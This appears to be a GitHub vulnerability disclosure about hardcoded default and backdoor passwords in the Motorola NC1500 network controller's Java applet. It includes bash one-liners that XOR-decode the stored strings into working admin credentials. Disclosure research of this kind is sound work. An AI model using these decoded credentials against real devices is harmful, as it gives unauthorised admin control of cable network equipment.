 # nc1500
Motorola NC1500 Backdoor Password

![alt text](https://github.com/billchaison/nc1500/raw/main/mot.png)

The Motorola NC1500 Hybrid Fiber Coax (HFC) Network Controller has a default password and backdoor password present in the `nc1500.jar` Java applet that is served from the device's web page.  The credentials are present in software version 1.9.4.

The web page on the device presents a user with this login page.  If you enter an incorrect password you gain read-only privileges.  Entering one of the correct passwords grants admin privileges.

![alt text](https://github.com/billchaison/nc1500/raw/main/mo1.png)

The backdoor and default passwords appear as XOR encoded strings in the `NC1500Applet.class` file.  The decoding function also appears in the same file, which transforms each character to plaintext using 0x40.

![alt text](https://github.com/billchaison/nc1500/raw/main/mo2.png)<br />
![alt text](https://github.com/billchaison/nc1500/raw/main/mo3.png)

The following bash one-liners produce the plaintext passwords.

```bash
a='%33%.#%```'; b=($(echo -n $a | xxd -p | fold -w 2)); c=""; for d in "${!b[@]}"; do e=$(printf "%02x" $(("0x${b[$d]}"^0x40))); c="$c$e"; done; echo $c | xxd -r -p; echo
```

```bash
a='-/4/2/,!``'; b=($(echo -n $a | xxd -p | fold -w 2)); c=""; for d in "${!b[@]}"; do e=$(printf "%02x" $(("0x${b[$d]}"^0x40))); c="$c$e"; done; echo $c | xxd -r -p; echo
```

```bash
a='$%6%,/0```'; b=($(echo -n $a | xxd -p | fold -w 2)); c=""; for d in "${!b[@]}"; do e=$(printf "%02x" $(("0x${b[$d]}"^0x40))); c="$c$e"; done; echo $c | xxd -r -p; echo
```
